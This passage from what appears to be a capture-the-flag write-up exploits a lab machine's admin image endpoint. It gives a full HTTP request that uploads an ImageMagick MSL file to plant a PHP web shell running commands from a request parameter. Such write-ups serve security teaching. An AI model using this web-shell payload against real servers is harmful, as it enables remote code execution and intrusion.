 ![](/img/image-20230915101756217.png)

By writing to `/var/www.md/intentions/storage/app/public/`, I can
expect to find the file in `/storage/`. I could also try the `animals`
directory, but it doesn't work (www-data doesn't have write access).

Now I'll edit the request headers to add form data for a file upload. My
full payload looks like:



    POST /api/v2/admin/image/modify?path=vid:msl:/tmp/php*&effect=abcd HTTP/1.1
    Host: 10.10.11.220
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/117.0
    X-XSRF-TOKEN: eyJpdiI6IjVBa2tJN0RvMUNLVlBvRzhaaFhpTWc9PSIsInZhbHVlIjoidW9hUmFITGZsWUQ5NVYyVjcvNlFkc0hQVk9qc0dFTEUrRUFkd1ZEdlFxUHZ2VmlVcitjRlZqMC9saXFCTmt2WkVvQ2Fzb1FmVXMvWkZWcG16SUh4c2hNTWU3aFpaSnEwZURXdWRuTVd4ZDBrWkIrSTVzZlJkLzBJLzJHcyszaGQiLCJtYWMiOiJlM2U1ZTFhNDgzYmQ2ZGExYjkxOWZkZjcwMGJiZTQzMGUyNzY5MmU0NDAzZDVkNjgyNTA1NTE4YWFiMzJjZjE3IiwidGFnIjoiIn0=
    Cookie: XSRF-TOKEN=eyJpdiI6IjVBa2tJN0RvMUNLVlBvRzhaaFhpTWc9PSIsInZhbHVlIjoidW9hUmFITGZsWUQ5NVYyVjcvNlFkc0hQVk9qc0dFTEUrRUFkd1ZEdlFxUHZ2VmlVcitjRlZqMC9saXFCTmt2WkVvQ2Fzb1FmVXMvWkZWcG16SUh4c2hNTWU3aFpaSnEwZURXdWRuTVd4ZDBrWkIrSTVzZlJkLzBJLzJHcyszaGQiLCJtYWMiOiJlM2U1ZTFhNDgzYmQ2ZGExYjkxOWZkZjcwMGJiZTQzMGUyNzY5MmU0NDAzZDVkNjgyNTA1NTE4YWFiMzJjZjE3IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6InR0TmJOa0crRGhzSjhEZFQ4bmErRVE9PSIsInZhbHVlIjoidElDYnFRSm1kVjVRSGNmR3FyNzJsdG0yakVsRXFKdVRYR1FMWnRrS1dRSUI1S1BHeENab3E4bGhyTmlTTmszY1llbFRLR1grQ09Lb09mcERjZ29qRGREUUI0cXJLQVUyRzFvUXJSNWNoQXhTVXA3K1pDSy93SVUzRTg5UW9lTEciLCJtYWMiOiJiNDFkOTc2MTJjMDgxZWZjMDU3NzFiZjQzNTEzNzM4YzA4MzU3YWY2ZDU4YWY2N2QwMmNjYWVjYjJiN2YwZjAzIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92Mi9hdXRoL2xvZ2luIiwiaWF0IjoxNjk0Nzg0NjMyLCJleHAiOjE2OTQ4MDYyMzIsIm5iZiI6MTY5NDc4NDYzMiwianRpIjoiUm0yNTFTZkdQUzB5c2dEbyIsInN1YiI6IjEiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.WfIhNsk0pGCcD2BQm1LPmxFJpBAe5yR0ArgRErpFyCQ
    Content-Length: 383
    Connection: close
    Content-Type: multipart/form-data; boundary=------------------------abcd

    --------------------------abcd
    Content-Disposition: form-data; name="file"; filename="test.msl"
    Content-Type: application/octet-stream

    <?xml version="1.0" encoding="UTF-8"?>
    <image>
    <read filename="caption:&lt;?php system($_REQUEST['cmd']); ?&gt;" />
    <write filename="info:/var/www.md/intentions/storage/app/public/0xdf.php" />
    </image>
    --------------------------abcd



I can use anything for `name`, as I just need PHP temporarily store it
in `/tmp` before it realizes it's not needed.
